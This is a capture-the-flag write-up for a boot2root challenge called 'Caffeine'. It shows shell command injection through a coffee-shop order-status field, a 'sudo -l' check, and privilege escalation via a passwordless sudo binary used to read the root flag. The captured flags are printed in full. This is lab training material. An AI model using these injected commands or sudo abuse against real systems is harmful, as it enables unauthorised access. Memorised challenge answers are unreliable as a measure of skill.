

# Caffeine

> Boot2root

## User

```text
This new coffee shop recently opened and you've been waiting too long for your daily caffeine injection! Can you find a way to see a little more than just your order status?

The user flag is in a file called user.txt.
```

points: `50`

solves: `310`

author: `Quack`

---



On checking, the text box at right side can be used for RCE

```shell
Order Status for #; ls
hint.txt
index.php
orders.log
user.txt
```

```shell
Order Status for #; cat user.txt
brunner{C0Ff33_w1Th_4_51d3_0F_c0MM4nD_1nj3Ct10n!}
```

## Root

```text
Now that you have access to their system, is there any way you can escalate your privileges and read the final flag?

The root flag is located in /root/root.txt.
```

points: `50`

solves: `203`

author: `Quack`

---

```shell
Order Status for #; cat /root/root.txt
No order found with ID #; cat /root/root.txt

Order Status for #; sudo cat /root/root.txt
No order found with ID #; sudo cat /root/root.txt
```

```shell
Order Status for #; cat hint.txt
Are there any files you *sudo'ent* (shouldn't) be able to run as a normal user?
The root flag is located at /root/root.txt
```

The hint indicates towards commands which can be *run with sudo without a password*

```shell
Order Status for #; sudo -l
Matching Defaults entries for www-data on ctf-caffeine-user-5428ae29c619f229-cffdd5566-llq4p:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ctf-caffeine-user-5428ae29c619f229-cffdd5566-llq4p:
    (ALL) NOPASSWD: /usr/local/bin/brew
```

`brew`..hmmm

```shell
Order Status for #; sudo brew /root/root.txt
   ( (
    ) )
   ( (
  .-'--.
  |◉.◉|  
  |    |  
  '~~~~'  
   ROOT PRIVILEGES DETECTED
   JavaJack's *Special Reserve* Brew

  Brewing your file reading...
═══════════════════════════════════════════════
brunner{5uD0_pR1V1L3g35_T00_h0t_F0r_J4v4_J4CK!}
═══════════════════════════════════════════════

    ) )
   ( (
  .-'-.
  |‼.‼|  
  |   |  
  '~~~'  
   Root Brew Successful!
```
